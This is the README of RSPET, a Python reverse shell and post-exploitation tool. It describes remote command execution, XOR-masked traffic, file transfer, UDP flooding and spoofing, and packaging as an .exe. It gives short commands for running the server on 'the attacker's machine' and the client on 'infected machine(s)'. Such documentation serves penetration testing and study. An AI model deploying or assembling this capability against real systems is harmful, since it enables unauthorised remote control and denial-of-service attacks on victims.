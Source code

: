 # RSPET

![MIT Licence](https://img.shields.io/badge/Licence-MIT_Licence-red.svg)
[![Python 2.7](https://img.shields.io/badge/Python-2.7-yellow.svg)](https://www.python.org/)
![v0.0.6](https://img.shields.io/badge/Release-v0.0.6-orange.svg)
![Maintained](https://img.shields.io/badge/Maintained-Yes-green.svg)
[![Twitter](https://img.shields.io/badge/Twitter-@theRSPET-blue.svg)](https://twitter.com/theRSPET)

> RSPET (Reverse Shell and Post Exploitation Tool) is a Python based reverse shell equipped with functionalities that assist in a post exploitation scenario.

DISCLAIMER: This software is provided for educational purposes and as a proof of concept. The developer(s) do not endorse, incite or in any other way support unauthorised computer access and networks disruption.

NOTE: As of v0.0.3 folder `min` has been added. Since the new version has many more features not essential to the main functionality (a reverse shell that is), min will not recieve any more features beyond v0.0.3 and will only get bug and performance related fixes.

Current Version: `v0.0.6`

Follow: [@TheRSPET](https://twitter.com/TheRSPET) on Twitter for updates.

## Features

* Remote Command Execution
* Trafic masking (XORed insted of cleartext); for better results use port 443[1]
* Built-in File/Binary transfer (both ways) over the masked trafic
* Built-in UDP Flooding tool
* Built-in UDP Spoofing tool[2]
* Multiple/All Hosts management; order File/Binary transfer and UDP Flood from Multiple/All connected Hosts
* Modular Code Design to allow easy customization[3]
* Client script is tested and is compatible with PyInstaller (can be made into .exe)[4]

*[1]The idea for XORing as well as the skeleton for the client came from [primalsecurity.net](http://www.primalsecurity.net) so if you like this pack of scripts you'll probably love what they do

*[2]UDP Spoofing uses RAW_SOCKETS so in order to utilize it, the client has to run on an OS that supports RAW_SOCKETS (most Unix-Based) and with root privilages. Finally, most of the ISPs have implementations in place that will either drop or re-structure spoofed packets

*[3]See EXPANDING for how you can easily add new functionality and customize RSPET to your needs

*[4]Again check [primalsecurity.net's](http://www.primalsecurity.net) perfect blogpost about producing an .exe

## Deployment:

* `RSPET_server.py` or `RSPET_server_min.py` is situated at the attacker's machine and running to accept connections
* `RSPET_client.py` or `RSPET_client_min.py` is situated in the infected machine(s) and will initiate the connection and wait for input. 

## Execution:

* Server:
```sh
python RSPET_server.py (max_connections) 
```
max_connections defaults to 5 if left blank

* Client: 
```sh
python RSPET_client.py server_ip
```

Many changes can be made to fit individual needs.

As always if you have any suggestion, bug report or complain feel free to contact me.

## Distros
> A list of Distros that contain RSPET

* [BlackArch Linux](http://blackarch.org/tools.html) (as of version 2016.04.28)

## As Featured in

* [seclist.us](http://seclist.us/rspet-reverse-shell-and-post-exploitation-tool.html)
* [sillycon.org](http://www.sillycon.org/stories/article/github-panagiksrspet-rspet-reverse-shell-and-post-exploitation-tool-is-a-python-based-reverse-shell-equipped-with-functionalities-that-assist-in-a-post-exploitation-scenario)
* [digitalmunition.me](https://www.digitalmunition.me/2016/04/rspet-reverse-shell-post-exploitation-tool/)
* [n0where.net](https://n0where.net/reverse-shell-post-exploitation-tool/)
* [kitploit.com](http://www.kitploit.com/2016/05/rspet-python-reverse-shell-and-post.html)
* [Hakin9 IT Security Magazine](https://www.facebook.com/hakin9mag/posts/1376368245710855)

## Todo

- [x] ~~Fix logic bug where if a dirrect command to Host OS has no output Server displays command not recognised~~
- [ ] Fix logic bug where if a dirrect command's to Host OS execution is perpetual the Server deadlocks
- [x] ~~Add client version and type (min or full) as a property when client connects and at `List_Hosts`~~
- [ ] Add client update mechanism (being worked on)
- [ ] Add UDP Reflection functionality (already in the workings)

## Author

[panagiks](https://twitter.com/panagiks)

## Contributors

* [b3mb4m](https://github.com/b3mb4m)

## License

MIT

